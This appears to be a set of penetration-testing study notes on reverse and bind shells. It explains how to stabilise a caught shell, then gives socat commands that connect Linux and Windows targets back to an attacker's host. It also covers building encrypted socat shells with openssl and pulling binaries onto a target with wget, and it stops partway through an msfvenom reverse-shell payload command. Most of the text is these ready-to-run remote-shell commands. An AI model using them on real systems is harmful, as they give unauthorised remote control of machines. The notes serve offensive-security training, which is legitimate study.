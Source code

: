When exploiting targets there are two main types of shells:

1) Reverse Shell
2) Binding Shell

### Reverse Shell 
- Opened when a target is forced to execute code that connects back to your computer
- Uses a *listener* to receive connection from a targeted computer

### Bind Shells
- Executes code to start a listener attached to a shell directly on a target

### Shell Stabilization

Technique 1: Python

1. Use `python -c 'import pty;pty.spawn("/bin/bash")'`, which uses Python to spawn a better featured bash shell; note that some targets may need the version of Python specified. If this is the case, replace `python` with `python2` or `python3` as required. The shell will look a bit prettier, but still won't be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell.
2.  `export TERM=xterm` -- this will give access to term commands such as `clear`.
3. Finally (and most importantly) background the shell using Ctrl + Z. Back in our own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.

Technique 2: rlwrap

1. first install it with `sudo apt install rlwrap`
	- gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell_;_ however, some manual stabilization must still be utilized if you want to be able to use Ctrl + C inside the shell
2. To use rlwrap, we invoke a slightly different listener:
	- `rlwrap nc -lvnp <port>`

Technique 3: Socat

 - Only viable on Linux machines
 
 The third easy way to stabilize a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell. Bear in mind that this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell. To accomplish this method of stabilisation we would first transfer a [socat static compiled binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true) (a version of the program compiled to have no dependencies) up to the target machine. A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (`sudo python3 -m http.server 80`), then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget (`wget <LOCAL-IP>/socat -O /tmp/socat`).


### SoCat

Commands:

	socat TCP-L:<port> -  creates a reverse shell listener

On Windows we would use this command to connect back:

`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`

This is the equivalent command for a Linux Target:

`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`

Bind Shells:
On a Linux target we would use the following command:

`socat TCP-L:<PORT> EXEC:"bash -li"`  

On a Windows target we would use this command for our listener:

`socat TCP-L:<PORT> EXEC:powershell.exe,pipes`  

We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.  

Regardless of the target, we use this command on our attacking machine to connect to the waiting listener.

`socat TCP:<TARGET-IP>:<TARGET-PORT> -`


#### Encrypted Shells

Steps to create an encrypte shell in Socat (reverse shell):
1) Generate a certificate for the encrypted shell
	Ex. openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt

2) Merge the two created files into a single .pem file
	Ex. cat shell.key shell.crt > shell.pem

3) Set up the reverse shell listener
	Ex. socat OPENSSL-LISTEN:PORT,cert=shell.pem,verify=0 -

4) Connect back to another machine
	Ex. socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash

* The above steps would also work for a bind shell *


    FILE:`tty`,raw,echo=0

socat OPENSSL:10.10.10.5:53,verify=0 EXEC:/bin/ bash,raw,echo=0

socat TCP: attacker-ip:attacker-port  EXEC:"bash -li",pty,stderr,sigint,setsid,sane


### Staged vs Stageless Payloads

msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=